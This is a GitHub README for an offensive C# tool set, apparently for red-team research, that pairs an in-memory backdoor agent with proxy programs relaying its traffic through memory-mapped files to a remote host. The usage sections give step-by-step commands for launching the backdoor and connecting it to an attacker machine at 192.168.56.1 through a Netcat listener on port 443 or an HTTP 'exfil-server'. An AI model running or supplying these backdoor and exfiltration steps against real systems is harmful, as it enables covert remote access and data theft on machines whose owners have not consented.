 # NativePayload_MP
C# Memory Mapped File & Connection in-memory between Backdoor & Proxy Process
-----------------------


 NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
    step2: NativePayload_MP.exe
    
--------------------------------------------    


 NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.cs as web Exfil-server tool) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] NativePayload_HTTP.sh -exfilwebserver 80
    step3: [win]                NativePayload_MP1.exe 192.168.56.1 
    
 --------------------------------------------    
   

NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] nc -lp 443
    step3: [win]                NativePayload_MP2.exe 192.168.56.1 443
--------------------------------------------    
    
NativePayload_MPAgent.cs (this code is our backdoor tool, working in memory only, without network connection) 
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
   
---------------------------------------------    
    
Article [1]: https://www.linkedin.com/pulse/memory-mapping-file-connection-in-memory-between-damon-mohammadbagher/

Article [2]: https://damonmohammadbagher.github.io/Posts/10mar2021x.html

Video:

------------------------------------------------
NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.cs as web Exfil-server tool) 
 
![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/1.png)

------------------------------------------------
NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/2-W10.png)

------------------------------------------------
NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/mp2-01.png)


